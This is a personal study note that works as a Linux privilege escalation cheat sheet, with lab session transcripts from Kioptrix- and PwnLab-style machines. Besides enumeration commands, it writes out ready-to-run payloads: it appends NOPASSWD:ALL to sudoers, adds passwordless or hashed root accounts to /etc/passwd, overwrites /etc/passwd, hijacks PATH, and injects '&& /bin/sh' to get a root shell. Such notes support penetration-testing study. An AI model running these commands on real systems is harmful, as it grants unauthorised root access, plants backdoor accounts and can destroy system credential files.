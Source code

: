 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Linux Privilege Escalation]]  
___

## Description:  
Auto enumeration with [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
### useful enumeration

users
`cat /etc/passwd`

**What commands can the user execute with sudo?
`sudo -l

**What is the kernel version and architecture type?
`uname -a
`uname -r

**What is the OS version
`cat /etc/*-release
kernel modules
`lsmod`
`/sbin/modinfo libata`

**What languages are installed?
`man -k language
`which gcc
`which g++

**running processes**
ps aux

**What are the SUID/GUID binaries?
``find / -perm -u=s -type f 2>/dev/null
``find / -perm -g=s -type f 2>/dev/null

look for vulnerable programs that run as root
[gtfobins](https://gtfobins.github.io/)

**Are there world writable files?
`find / -writable -type d 2>/dev/null

**What have users been doing? Command history?
`history
``.bash_history

**Are there any plaintext credentials to be found?
`find . -type f | xargs grep –i “password”
`grep –r . –e “password” 2>/dev/null

**What jobs are scheduled?
`crontab -l
l`s -lah /etc/cron* 2>/dev/null
`cat /etc/crontab`

networking
`netstat -tulpn`
`/sbin/route`
`ss -anp`
`cd /etc/iptables`

**applications installed**
`dpkg -l`

**unmounted disks
`cat /etc/fstab`
`mount`
`/bin/lsblk`

**Scripts that can be used if they run as root:
`echo “user ALL=(ALL) NOPASSWD:ALL” >> /etc/sudoers
`echo “user::0:0:System Administrator:/root/root:/bin/bash” >> /etc/passwd
`bash -i

**Editing the Sudoers file to give root
change:
`loneferret ALL=NOPASSWD: !/usr/bin/su, /usr/local/bin/ht 
To:
`loneferret ALL=NOPASSWD: /bin/su, /usr/local/bin/ht 
`loneferret@Kioptrix3:~$ sudo /bin/su 

**What processes and services are running?  Which are running as root?
`ps –ef
`ps –ef | grep root

**Is /etc/passwd writable?**
Removing x means root requires no password
`echo root::0:0:root:/root:/bin/bash > /etc/passwd`
--OR--
generate hash of the password:
`openssl passwd -1 -salt [salt value] {password}
`openssl passwd -1 -salt user3 pass123
to create a second root user with "mrcake" password:
`echo "root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash" >> /etc/passwd
to switch to a root2 account that was just created:
`su root2
`Password: mrcake

**Can you run tcpdump?**
run tcpdump with -I lo for loopback
or what other systems are connecting to it? You might be able to get a username and password

**Program that runs a command without an absolute path**
Create a program with the same name in the tmp directory (echo /bin/bash >> command) and then add tmp to the beginning of path (export PATH=/tmp:$PATH)

```
kane@pwnlab:~$ cd /tmp

cd /tmp

kane@pwnlab:/tmp$ echo /bin/bash > cat

echo /bin/bash > cat

kane@pwnlab:/tmp$ chmod 777 cat

chmod 777 cat

kane@pwnlab:/tmp$ export PATH=/tmp:$PATH

export PATH=/tmp:$PATH

kane@pwnlab:/tmp$ cd /home/kane

cd /home/kane

kane@pwnlab:~$ ./msgmike

./msgmike

mike@pwnlab:~$ id

id

uid=1002(mike) gid=1002(mike) groups=1002(mike),1003(kane)

```
**Can you use command concatenation with && /bin/sh or &&/bin/bash?

```
mike@pwnlab:/home/mike$ ./msg2root

./msg2root

Message for root: hello && /bin/sh

hello && /bin/sh

hello

# id

id

uid=1002(mike) gid=1002(mike) euid=0(root) egid=0(root) groups=0(root),1003(kane)

```



___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (01:02 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
